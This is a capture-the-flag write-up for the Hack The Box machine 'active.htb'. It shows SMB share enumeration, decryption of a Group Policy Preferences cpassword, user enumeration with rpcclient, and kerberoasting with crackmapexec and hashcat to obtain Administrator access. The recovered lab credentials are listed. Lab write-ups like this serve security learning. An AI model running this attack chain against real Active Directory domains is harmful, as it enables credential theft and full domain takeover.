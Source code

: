 ## Info
### Credential
 User             | Password                 | Service | Note
------------------|--------------------------|---------|------
active.htb\SVC_TGS|GPPstillStandingStrong2k18|LDAP     |
Administrator     |Ticketmaster1968          |         |

### System
- hostname: `active.htb`

### DNS
- TCP port is open -> Domain Transfer (X)

### Kerberos

### SMB
**Shares**
```
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: DENIED
[*] Testing share NETLOGON
[+] Mapping: DENIED, Listing: N/A
[*] Testing share Replication
[+] Mapping: OK, Listing: OK
[*] Testing share SYSVOL
[+] Mapping: DENIED, Listing: N/A
[*] Testing share Users
[+] Mapping: DENIED, Listing: N/A
```

### LDAP


## Path
### User, Root
1. The share `Relpication` is readable. In the share, there are two folders with the UUID as their names.
- default domain policy: `{31B2F340-016D-11D2-945F-00C04FB984F9}`
- default domain controllers policy: `{6AC1786C-016F-11D2-945F-00C04fB984F9}`
```
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI
./Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
```
2. According this [article](https://adsecurity.org/?p=2288), the `active.htb` obtained earlier should be SOSVOL share. Thus, we can crack the user `active.htb\SVC_TGS`'s password from `Groups.xml`. Throw it into CyberChef, choose base64 -> AES-CBC with IV=NULL, then get the password `GPPstillStandingStrong2k18`.
```
$ cat Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml
...
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
 
```
3. Logon using `rpcclient` and get all the users.
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]
```
4. Do kerberoasting and get admin's password hash. Then crack admin's password with `hashcat`.
```
$ cme ldap  -u 'SVC_TGS' -p GPPstillStandingStrong2k18 --kerberoasting kerbroast.cme active.htb
LDAP        10.10.10.100    389    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
LDAP        10.10.10.100    389    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
LDAP        10.10.10.100    389    DC               $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$9eec1669c83d79bc5875667406319be6$5a097
$ hashcat --force -m 13100  kerbroast.cme /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
5. We can logon SMB as admin and get the `user.txt` and `root.txt`.
